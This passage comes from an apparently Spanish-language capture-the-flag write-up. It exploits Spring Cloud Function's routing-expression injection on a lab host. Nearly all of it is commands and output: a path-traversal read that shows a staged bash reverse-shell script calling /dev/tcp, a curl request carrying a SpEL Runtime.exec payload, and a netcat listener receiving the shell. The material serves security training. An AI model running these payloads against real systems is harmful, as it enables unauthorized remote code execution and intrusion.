 ```bash
{"timestamp":"2023-07-07T19:06:16.502+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}
```

```bash
❯ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.11.204 - - [07/Jul/2023 13:06:23] "GET /enviame.sh HTTP/1.1" 200 -
```

Ahora vamos a validar que se subió

```bash
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../tmp/rev"
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.213/443 0>&1
```

Y bueno ahora ganamos acceso

```bash
❯ curl -X POST http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/rev")' --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080 (#0)
> POST /functionRouter HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/7.88.1
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/rev")
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
> 
< HTTP/1.1 500 
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Fri, 07 Jul 2023 19:07:53 GMT
< Connection: close
< 
* Closing connection 0
{"timestamp":"2023-07-07T19:07:53.249+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}
```

Y tenemos la reverse Shell

```bash
❯ nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.204 38528
bash: cannot set terminal process group (815): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0$ whoami
whoami
frank
bash-5.0$ 
```
